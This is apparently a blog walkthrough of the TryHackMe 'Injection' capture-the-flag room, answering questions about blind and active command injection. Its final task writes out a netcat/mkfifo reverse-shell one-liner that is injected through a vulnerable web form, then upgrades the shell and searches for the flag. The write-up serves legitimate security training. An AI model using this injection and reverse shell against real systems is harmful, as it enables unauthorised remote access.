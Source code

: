 ```yaml
---
title: "Walk-through of Injection from TryHackMe"
header:
  teaser: /assets/images/2020-06-03-14-47-11.png
toc: true
toc_sticky: true
excerpt_separator:  <!--more-->
categories:
  - CTF
tags:
  - THM
  - CTF
  - injection
  - blind
  - Linux
---
```


## Machine Information

![injection](/assets/images/2020-06-03-14-47-11.png)

Injection is a beginner level room designed to show the dangers of badly coded web pages. Skills required are basic Linux knowledge and an understanding of the layout of its filesystem. Skills learned are exploiting vulnerable webpages to achieve command injection.
<!--more-->

| Details |  |
| --- | --- |
| Hosting Site | [TryHackMe](https://tryhackme.com/) |
| Link To Machine | [THM - Easy - Injection](https://tryhackme.com/room/injection) |
| Machine Release Date | 2nd June 2020 |
| Date I Completed It | 2nd June 2020 |
| Distribution used | Kali 2020.1 – [Release Info](https://www.kali.org/releases/kali-linux-2020-1-release/) |

## Tasks 1 and 2

Task 1 and 2 are introductions and don't require any questions to be answered.

## Task 3 - Blind Injection

### Question 3.1

Ping the box with 10 packets.  What is this command (without IP address)?

A quick look at the help for ping will give you a clue to this answer:

```text
root@kali:~# ping -h
Usage
  ping [options] <destination>

Options:
  <destination>      dns name or ip address
  -a                 use audible ping
  -A                 use adaptive ping
  -B                 sticky source address
  -c <count>         stop after <count> replies
  -D                 print timestamps
  -d                 use SO_DEBUG socket option
  -f                 flood ping
  -h                 print help and exit
  -I <interface>     either interface name or address
  -i <interval>      seconds between sending each packet
  -L                 suppress loopback of multicast packets
  -l <preload>       send <preload> number of packages while waiting replies
  -m <mark>          tag the packets going out
  -M <pmtud opt>     define mtu discovery, can be one of <do|dont|want>
  -n                 no dns name resolution
  -O                 report outstanding replies
  -p <pattern>       contents of padding byte
  -q                 quiet output
  -Q <tclass>        use quality of service <tclass> bits
  -s <size>          use <size> as number of data bytes to be sent
  -S <size>          use <size> as SO_SNDBUF socket option value
  -t <ttl>           define time to live
  -U                 print user-to-user latency
  -v                 verbose output
  -V                 print version and exit
  -w <deadline>      reply wait <deadline> in seconds
  -W <timeout>       time to wait for response
```

### Question 3.2

Try to redirect output to a file on the web server.  What alert message do you see appear?

The explanation for this task talks about the standard Bash operator for redirection, which is >. We need to try redirecting our input on the vulnerable web page to see what we get:

![redirect](/assets/images/2020-06-02-22-52-46.png)

### Question 3.3

Enter "root" into the input and review the alert.  What type of alert do you get?

Simple enough, let's do as instructed, what message do we get back:

![root](/assets/images/2020-06-02-22-54-43.png)

### Question 3.4

Enter "www-data" into the input and review the alert.  What type of alert do you get?

![www-data](/assets/images/2020-06-02-22-55-50.png)

### Question 3.5

Enter your name into the input and review the alert.  What type of alert do you get?

![pencer](/assets/images/2020-06-02-22-56-37.png)

## Task 4 - Active Injection

### Question 4.1

What strange text file is in the website root directory?

Let's check where we are with pwd (present working directory):

![pwd](/assets/images/2020-06-02-23-06-05.png)

We can use ls to list the current directory, but need to try and make sense of the output:

![ls](/assets/images/2020-06-02-23-07-12.png)

### Question 4.2

How many non-root/non-service/non-daemon users are there?

We look in the passwd file to see the users on the system:

![passwd](/assets/images/2020-06-02-23-09-28.png)

We need to make sense of that output and work out the number.

### Question 4.3

What user is this app running as?

Let's check who we are:

![whoami](/assets/images/2020-06-02-23-11-57.png)

### Question 4.4

What is the user's shell set as?

We can go back to the output of the passwd file to see what our shell is set to. We can also use the getent command to make it easier:

![getent](/assets/images/2020-06-02-23-16-10.png)

### Question 4.5

What version of Ubuntu is running?

There's a helpful command called lsb_release you can use here:

![lsb_release](/assets/images/2020-06-03-16-16-02.png)

### Question 4.6

Print out the MOTD.  What favorite beverage is shown?

The way MOTD works has changed over the years, and it's different depending on the distribution. There's a hint for it in the question that will help. Also [here](https://linuxconfig.org/how-to-change-welcome-message-motd-on-ubuntu-18-04-server) is a good explanation for the version of Ubuntu we are dealing with. Here's is how you could do it:

![motd](/assets/images/2020-06-03-13-57-51.png)

## Task 5 - Get The Flag

Time to find the hidden flag. You can do this using the website, but with command injection available it's more fun to get a shell on to the box. Start nc on your attack machine:

```text
root@kali:~# nc -nlvp 1234
listening on [any] 1234 ...
```

Then enter this command on the vulnerable website, changing IP and port as needed:

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.17.195 1234 >/tmp/f
```

![nc](/assets/images/2020-06-02-22-59-08.png)

Back on Kali we see the connection, and have our reverse shell open:

```text
root@kali:~# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.9.17.195] from (UNKNOWN) [10.10.197.105] 35026
/bin/sh: 0: can't access tty; job control turned off
```

First thing is get a proper interactive shell running:

```text
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@injection:/var/www/html$ ^Z
[1]+  Stopped                 nc -nlvp 1234
root@kali:~# stty raw -echo
```

Now we need to think how we will find the hidden flag. I started by looking around the obvious areas, like web site root, user home, but found nothing. So resorted to a guess on what extension the file might have and used **find** to look for it:

```text
www-data@injection:/$ find / -name *.txt 2>/dev/null | more
```

It's a longish list, but looking through that a certain file will jump out at you.

All done. See you next time.
